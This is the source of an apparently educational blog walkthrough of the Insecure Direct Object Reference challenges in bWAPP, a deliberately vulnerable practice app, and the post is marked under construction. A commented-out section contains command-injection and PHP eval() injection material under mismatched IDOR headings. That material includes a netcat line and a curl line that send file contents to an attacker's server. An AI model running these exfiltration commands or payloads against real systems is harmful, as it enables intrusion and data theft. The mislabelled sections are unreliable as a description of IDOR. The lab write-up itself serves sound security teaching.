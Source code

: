 ```yaml
---
layout: post
published: true
title: "A4 - Insecure Direct Object References(IDOR) | Solutions of bWAPP | Walkthrough of All Levels"
date: 2020-07-29 23:32:20 +0300
description: Solutions of Insecure DOR (Change Secret), Insecure DOR (Reset Secret), Insecure DOR (Order Tickets) for the A4 - Insecure Direct Object References challanges.
excerpt: "Writeups of all levels in A4 - Insecure Direct Object References Catagory such as Solutions of Insecure DOR (Change Secret), Insecure DOR (Reset Secret), Insecure DOR (Order Tickets). "
image: "https://jaiguptanick.github.io/Blog/images/bwapp/a1/bWAPP_Writeup_solution_logo.png"
sitemap:
    priority: 0.8
    lastmod: 2020-09-29
    changefreq: monthly
---
```


<style>
/* This stylesheet sets the width of all images to 100%: */
img {
  width: 90%;
}
</style>

<h2 align="center" > </h2>
---
Here is a walkthrough and tutorial of the [bWAPP](http://www.itsecgames.com/) which is a vulnerable web application by itsecgames which you can download and test on your local machine. It has a complete list of OWASP vulnerabilities which we can practially test. <b>The best part of using bWAPP is that it is running on our local system so we have access to its source code, so if we got stuck somewhere then we can analyse its source code as it is very neat and describitive having comments wherever necessary.</b> We can see the function being used to restrict or sanatize the input,then can search for its vulnerablity on the web.

>Hello, today we are going to solve Insecure Direct Object Reference (IDOR) of Buggy Web Application such as Insecure DOR (Change Secret), Insecure DOR (Reset Secret), Insecure DOR (Order Tickets).

## Insecure DOR (Change Secret)
---
<h3>Security Level: low</h3>
Simply a text box, asking for the new secret key.

![Insecure DOR Change Secret]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/bwapp/a4/idor_1.png)

Intersepting request provide us the username of the logged in user which can be modified,

![Insecure DOR Change Secret]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/bwapp/a4/idor_2.png)

Now if we know the username of any other user then we can modify the request to make changes in someone else account whose account access we don't have.

![Insecure DOR Change Secret]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/bwapp/a4/idor_3.png)

Like here we changes it to that of john to add this secret to john's accounts, but for this there mmust be a user name john.
Now if we take a look at the mysql database we can see that we have changes the secret of  john account from bee's account.

![Insecure DOR Change Secret]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/bwapp/a4/idor_4.png)

If we look at the source code we can see that there is no condition or validation except character filter.

![Insecure DOR Change Secret]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/bwapp/a4/c1.png)

<h3>Security Level: medium/high</h3>
Trying the same  but this time No login parameter in the request rather it is assigning unique random token to each user in each request to prevent data tempering.

![Insecure DOR Change Secret]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/bwapp/a4/idor_5.png)

If we see the code we can see that it is validating each request:

![Insecure DOR Change Secret]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/bwapp/a4/c2.png)

<!--
## Insecure DOR (Reset Secret)
---
This is as same as GET just the input is not displayed in the URL and is send securely. 

There is a way to bypass the blind injection with netcat by pipeing the output of a command to a nc listener. We could do something like 
```172.217.167.14 ; ls -la | nc {OUR_machine_IP} {PORT} ``` . This will send the output of ls -la to our netcat listener. BUT WHAT TO DO IF THE SERVER IS HOSTED ON A WINDOW MACHINE which do not have netcat by default so here we can use the curl command as ```type /path/to/file | curl –F “:data=@-“ http://our_malicious_server_ip/test.txt ``` . This sends the file data to our server and we can see the contents in our error log files on our malicious server. We can even send the files, for more see [HERE](https://www.contextis.com/us/blog/data-exfiltration-via-blind-os-command-injection).<br> But in this challange no such efforts are required as we can simply save the output of our malicious command to a file on the server and later access the file form the URL.<br>
Lets see practically:
Using the command ```172.217.167.14 | cd > present_workingdir.txt``` in the text box.

![Insecure DOR Reset Secret]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/bwapp/a4/os_blind_l2.png)

Now moving to the file we created on the server ```https://localhost/bwapp/present_workingdir.txt```.

![Insecure DOR Reset Secret]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/bwapp/a4/os_blind_l3.png)

Hence we can access each file on the server :)

<h3>Security Level: medium</h3>

Same works here as in medium level the function used by the server blocks the use of '&' and ; but we are actually using pipe for chaining the multiple commands.

<h3>Security Level: high</h3>

Here again they are using ```escapeshellcmd(); ``` function which ensure that user execute only one command , so we can't chain the commands in this level.

## Insecure DOR (Order Tickets)
---
>Code Injection consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data.

Here the system is using PHP so we will somehow inject some php code/command. If the server doesn't sanatizes our input, we can exploit and perform unusual activity.

<h3>Security Level: low</h3>
It is just throwing back the argument value used in the GET request.

![Insecure DOR Order Tickets]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/bwapp/a4/php1.png)

Viewing the source code the function used is: ``` <?php @eval ("echo " . $_REQUEST["message"] . ";");?> ``` <br>
When a developer uses the PHP ```eval() ```function and passes it untrusted data that an attacker can modify, Insecure DOR Order Tickets could be possible. It is a dangerous way to use the eval() function as the user can provide any malicious input in the message argument and it will execute as a code as there is no input validation in eval function.
Now, in this challange we can use any PHP commands such as ```phpinfo()``` or can even run shell commands directly using ```system('<shell_command>');```
![Insecure DOR Order Tickets]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/bwapp/a4/php2.png)

![Insecure DOR Order Tickets]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/bwapp/a4/php3.png)

<h3>Security Level: medium and high</h3>

Medium and High Security level are using the ```<?php echo htmlspecialchars($_REQUEST["message"], ENT_QUOTES, "UTF-8");;?> ```
which sanatize the input and prevent the running of external code provided by replacing the restricted words and it is considering our input as a text.

![Insecure DOR Order Tickets]({{ site.baseurl }}https://jaiguptanick.github.io/Blog/images/bwapp/a4/php4.png)
-->

Under Contruction!!!!!!

/*<i>Thanks for your patience, I hope you enjoyed reading. Happy Hacking... </i>*/ 